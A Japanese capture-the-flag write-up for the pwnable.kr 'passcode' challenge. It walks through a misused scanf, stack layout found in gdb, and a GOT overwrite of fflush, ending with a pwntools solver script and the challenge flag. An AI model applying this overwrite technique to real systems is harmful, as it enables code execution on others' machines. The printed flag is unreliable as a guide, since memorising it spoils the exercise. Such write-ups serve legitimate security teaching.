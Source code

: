 # passcode 
以下のコードが渡される
```c
#include <stdio.h>
#include <stdlib.h>

void login(){
	int passcode1;
	int passcode2;

	printf("enter passcode1 : ");
	scanf("%d", passcode1);
	fflush(stdin);

	// ha! mommy told me that 32bit is vulnerable to bruteforcing :)
	printf("enter passcode2 : ");
        scanf("%d", passcode2);

	printf("checking...\n");
	if(passcode1==338150 && passcode2==13371337){
                printf("Login OK!\n");
                system("/bin/cat flag");
        }
        else{
                printf("Login Failed!\n");
		exit(0);
        }
}

void welcome(){
	char name[100];
	printf("enter you name : ");
	scanf("%100s", name);
	printf("Welcome %s!\n", name);
}

int main(){
	printf("Toddler's Secure Login System 1.0 beta.\n");

	welcome();
	login();

	// something after login...
	printf("Now I can safely trust you that you have credential :)\n");
	return 0;	
}
```

## checksec
`checksec`で実行ファイルのセキュリティを調べる
```
Canary                        : ✓
NX                            : ✓
PIE                           : ✘
Fortify                       : ✘
RelRO                         : Partial
```
canaryがあるのでBoFはできなそう
NXが立っているのでshellcodeもなさそう

## login
```c
void login(){
	int passcode1;
	int passcode2;

	printf("enter passcode1 : ");
	scanf("%d", passcode1);
	fflush(stdin);
```
ここの`scanf`でアドレスではなく変数自体を渡しているので実行するとセグフォする。`passcode1`は初期化されていないので中身は多分`0`?

## welcome
```c
void welcome(){
	char name[100];
	printf("enter you name : ");
	scanf("%100s", name);
```
こっちの`scanf`は正しく使われている。
`name`のバッファは`100`あり、`welcome`が呼ばれた直後に`login`が呼ばれるので、`passcode1`の初期値をいじれそう

## gdb
`name`のスタック上での位置を確認する
```
   0x0804862f <+38>:    lea    edx,[ebp-0x70]
   0x08048632 <+41>:    mov    DWORD PTR [esp+0x4],edx
   0x08048636 <+45>:    mov    DWORD PTR [esp],eax
   0x08048639 <+48>:    call   0x80484a0 <__isoc99_scanf@plt>
```
`scanf`を呼ぶ前に`edx`に乗せているので`ebp-0x70`が`name`変数である

`passcode1`のスタック上での位置を確認する
```
   0x0804857c <+24>:    mov    edx,DWORD PTR [ebp-0x10]
   0x0804857f <+27>:    mov    DWORD PTR [esp+0x4],edx
   0x08048583 <+31>:    mov    DWORD PTR [esp],eax
   0x08048586 <+34>:    call   0x80484a0 <__isoc99_scanf@plt>
```
先ほどと同様の理由で`ebp-0x10`が`passcode1`である

## exploit
`passcode1`の値を自由に書き換えることができるということは、自由なアドレスにほぼ自由に値を書き込めるということになる
ここでは素朴にGOT Overwriteでシェルを奪取することにする
`fflush`関数のGOT上のアドレスを`system("/bin/cat flag")`のアドレスに書き換えることにする

以下がソルバーとなる
```python
from pwn import *

host = "pwnable.kr"
user = "passcode"
password = "guest"
port = 2222

shell = ssh(user=user, host=host, password=password, port=port)
elf = ELF("./passcode")
io = shell.process("./passcode")

io.recvuntil(b"enter you name : ")
payload = b"A"*96 + p32(elf.got["fflush"])
print(payload)
io.sendline(payload)

io.recvuntil(b"enter passcode1 : ")
system = str(int(0x80485e3))
print(system)
io.sendline(system)
```

実は`pwntools`は`ssh`にも対応している。とても便利
`elf`は`scp`で手元に落としてきたものを読んでいる
`got["fflush"]`は`int`でアドレスが返ってくるので`p32`でリトルエンディアンに書き換えている

`system`関数のアドレスを指定する際は、`call`命令のアドレスを指定すると引数が乗らないので注意

flag: `Sorry mom.. I got confused about scanf usage :(`